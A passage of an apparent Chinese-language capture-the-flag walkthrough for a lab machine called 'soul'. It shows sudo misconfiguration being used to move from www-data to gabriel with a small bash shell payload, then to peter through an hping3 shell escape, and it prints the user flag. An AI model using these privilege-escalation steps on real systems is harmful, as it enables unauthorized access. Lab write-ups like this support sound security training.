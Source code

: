 ### 尝试提权

部署恶意载荷

```bash
#!/bin/bash

whoami;

/bin/bash
```

## User - gabriel

```bash
(remote) www-data@soul:/tmp$ sudo -u gabriel /tmp/whoami
gabriel
gabriel@soul:/tmp$ whoami
gabriel
```

### flag - user

```bash
gabriel@soul:~$ cat user.txt
HMViwazhere
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for gabriel on soul:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gabriel may run the following commands on soul:
    (peter) NOPASSWD: /usr/sbin/hping3
```

## User - peter

```bash
gabriel@soul:~$ sudo -u peter /usr/sbin/hping3
hping3> /bin/bash
peter@soul:/home/gabriel$ whoami
peter
```

### 环境探测

```plaintext title="sudo -l"
Permission denied
```

